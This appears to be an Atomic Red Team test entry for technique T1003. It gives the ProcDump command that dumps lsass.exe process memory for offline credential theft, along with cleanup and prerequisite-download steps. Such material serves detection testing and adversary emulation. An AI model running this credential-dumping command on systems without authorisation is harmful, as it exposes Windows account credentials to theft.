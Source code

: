 The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with Sysinternals
ProcDump.

Upon successful execution, you should see the following file created c:\windows\temp\lsass_dump.dmp.

If you see a message saying "procdump.exe is not recognized as an internal or external command", try using the
get-prereq_commands to download and install the ProcDump tool first.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Path where resulting dump should be placed | Path | C:&#92;Windows&#92;Temp&#92;lsass_dump.dmp|
| procdump_exe | Path of Procdump executable | Path | PathToAtomicsFolder&#92;T1003&#92;bin&#92;procdump.exe|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
#{procdump_exe} -accepteula -ma lsass.exe #{output_file}
```

#### Cleanup Commands:

```cmd
del "#{output_file}" >nul 2> nul
```

#### Dependencies:  Run with `powershell`!

##### Description: ProcDump tool from Sysinternals must exist on disk at specified location (#{procdump_exe})

##### Check Prereq Commands:

```powershell
if (Test-Path #{procdump_exe}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/Procdump.zip" -OutFile "$env:TEMP\Procdump.zip"
Expand-Archive $env:TEMP\Procdump.zip $env:TEMP\Procdump -Force
New-Item -ItemType Directory (Split-Path #{procdump_exe}) -Force | Out-Null
Copy-Item $env:TEMP\Procdump\Procdump.exe #{procdump_exe} -Force
```

<br/>
<br/>
